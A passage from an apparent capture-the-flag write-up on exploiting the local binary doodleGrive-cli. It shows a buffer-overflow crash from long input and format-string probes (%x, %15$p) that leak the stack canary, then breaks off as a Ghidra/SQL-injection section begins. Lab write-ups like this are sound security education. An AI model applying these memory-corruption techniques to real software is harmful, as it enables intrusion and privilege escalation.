 ```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Enter password for AAAAAAAAAAAAAAA:
Invalid username or password.
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

Also, the binary prints out whatever `username` we give it, and I tested for format string vulnerabilities that would allow me to read the stack canary.

```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
tom
Enter password for tom:
^C

tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
%x
Enter password for 10:
```

It worked! Using this, I can slowly read each byte of data.

{% embed url="https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie" %}

The stack canary for Linux machines always ends with a null byte, so I first found out where was it along the stack. After some testing, it appears using `%15$p` prints out the stack canary consistently.

```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
%15$p
Enter password for 0x924e6ebdabc8dd00:
```

### Ghidra --> SQL Injection

I took a pause here and used `ghidra` to disassemble the `main` function.
